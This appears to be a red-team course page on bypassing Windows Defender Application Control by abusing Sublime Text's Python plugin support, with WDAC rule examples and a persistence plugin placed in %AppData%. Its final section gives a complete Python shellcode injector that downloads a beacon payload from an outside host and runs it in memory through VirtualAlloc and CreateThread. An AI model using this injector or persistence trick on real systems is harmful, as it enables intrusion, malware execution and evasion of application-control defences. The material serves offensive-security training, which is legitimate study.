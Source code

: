 Like LOLBIN's, third-party applications that have script or code execution capabilities can be dangerous to trust, depending on how the rules are defined.  Good candidates to look at are applications that support plugins, such as [Visual Studio Code](https://code.visualstudio.com/), [Sublime Text](https://www.sublimetext.com/) and [Notepad++](https://notepad-plus-plus.org/).

For example - Sublime is a popular text editor which comes packaged with a Python interpreter and also supports plugins written in Python.  These can be simply dropped into the user's `%AppData%` directory.  [Gabriel Mathenge](https://twitter.com/_theVIVI) wrote a great [article](https://thevivi.net/blog/pentesting/2022-03-05-plugins-for-persistence/) on how Sublime plugins can be used for persistence, but it can also act as a WDAC bypass as well.

The core components of Sublime are signed by their Code Signing CA, which can be used to build a WDAC policy.  However, the unsigned DLLs will not be permitted to load, which will break some of Sublime's functionality (e.g. no Python plugin would be able to function).

```powershell
PS C:\Users\hdoyle> ls 'C:\Program Files\Sublime Text\' -Include *.exe, *.dll -Recurse | Get-AuthenticodeSignature

SignerCertificate                         Status                                     Path
-----------------                         ------                                     ----
834F29A60152CE36EB54AF37CA5F8EC029ECCF01  Valid                                      crash_reporter.exe
                                          NotSigned                                  libcrypto-1_1-x64.dll
                                          NotSigned                                  libssl-1_1-x64.dll
9617094A1CFB59AE7C1F7DFDB6739E4E7C40508F  Valid                                      msvcr100.dll
834F29A60152CE36EB54AF37CA5F8EC029ECCF01  Valid                                      plugin_host-3.3.exe
834F29A60152CE36EB54AF37CA5F8EC029ECCF01  Valid                                      plugin_host-3.8.exe
                                          NotSigned                                  python33.dll
                                          NotSigned                                  python38.dll
834F29A60152CE36EB54AF37CA5F8EC029ECCF01  Valid                                      subl.exe
834F29A60152CE36EB54AF37CA5F8EC029ECCF01  Valid                                      sublime_text.exe
28173C6A166FB89E4A17C4D58CD83B46BDC226BB  UnknownError                               unins000.exe
834F29A60152CE36EB54AF37CA5F8EC029ECCF01  Valid                                      update_installer.exe
62009AAABDAE749FD47D19150958329BF6FF4B34  Valid                                      vcruntime140.dll
```

  

It's therefore common for organisations to use "fallback" policies to allow these to run as well.  The primary trust level is often **Publisher**, and the fallback commonly **Hash** or **FilePath**.

A **Publisher** rule for Sublime could look like this:

```xml
<Signer ID="ID_SIGNER_S_1" Name="Sectigo RSA Code Signing CA">
  <CertRoot Type="TBS" Value="20ADC5B59CB532E215F01BA09A9C745898C206555613512FEA7C295CCFD17CED4FE2C5BC3274CA8A270FC68799B8343C" />
  <CertPublisher Value="Sublime HQ Pty Ltd" />
</Signer>
```

Fallback **Hash** rules for `python38.dll` like this:

```xml
  <FileRules>
    <Allow ID="ID_ALLOW_A_D" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Sha1" Hash="07F2BD05F877852F5AA016487CB0B23D7F0F0947" />
    <Allow ID="ID_ALLOW_A_E" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Sha256" Hash="FB046BF518AA8C1CCEE19483AE35F41C7A235AF6358FAD3736FF7EFE5C63DE56" />
    <Allow ID="ID_ALLOW_A_F" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Page Sha1" Hash="203F80E93E6BFD4BB4046A0FE03332348BCC7241" />
    <Allow ID="ID_ALLOW_A_10" FriendlyName="C:\Program Files\Sublime Text\python38.dll Hash Page Sha256" Hash="024CE702ACD7F513513F68B569C7BD5E8CC47B78401E2186B75D14B56955B96E" />
  </FileRules>
```


And a fallback **FilePath** rule for `python38.dll` like this:

```xml
<FileRules>
  <Allow ID="ID_ALLOW_A_14" FriendlyName="C:\Program Files\Sublime Text\python38.dll FileRule" MinimumFileVersion="0.0.0.0" FilePath="C:\Program Files\Sublime Text\python38.dll" />
</FileRules>
```

It's therefore critical to understand WDAC rules well to find wiggle-room.

Take the following Python code and save it under `%AppData%\Sublime Text\Packages\calc.py`.

```python
import subprocess
subprocess.call('C:\\Windows\\System32\\calc.exe')
```

Now, the calculator will open each time Sublime is launched.  It's that simple.  However, this isn't bypassing WDAC because calc.exe is trusted (signed by Microsoft) - it just demonstrates that the plugin is working.  Instead of calling a binary on disk, we can use a Python shellcode injector such as [this example](https://gist.github.com/peewpw/8054a64eb4b5cd007a8431a71d698dc3) by [Barrett Adams](https://twitter.com/peewpw).

```python
import ctypes
import requests

url = 'http://10.10.5.39/beacon.bin'
r = requests.get(url, stream=True, verify=False)
scbytes = r.content

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
ctypes.windll.kernel32.CreateThread.argtypes = (ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int))

mem = ctypes.windll.kernel32.VirtualAlloc(
	ctypes.c_int(0),
	ctypes.c_int(len(scbytes)),
	ctypes.c_int(0x3000),
	ctypes.c_int(0x40)
	)

buf = (ctypes.c_char * len(scbytes)).from_buffer_copy(scbytes)

ctypes.windll.kernel32.RtlMoveMemory(
	ctypes.c_void_p(mem),
	buf,
	ctypes.c_int(len(scbytes))
	)

handle = ctypes.windll.kernel32.CreateThread(
	ctypes.c_int(0),
	ctypes.c_int(0),
	ctypes.c_void_p(mem),
	ctypes.c_int(0),
	ctypes.c_int(0),
	ctypes.pointer(ctypes.c_int(0))
	)
```

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/sublime.png)

  

>  This requires the external [requests Python library](https://github.com/bgreenlee/sublime-github/tree/master/lib/requests) to download the shellcode.  To make it available to Sublime, you just have to drop the source files into the same `Packages` directory.  This is already provided on **Workstation 3** for convenience.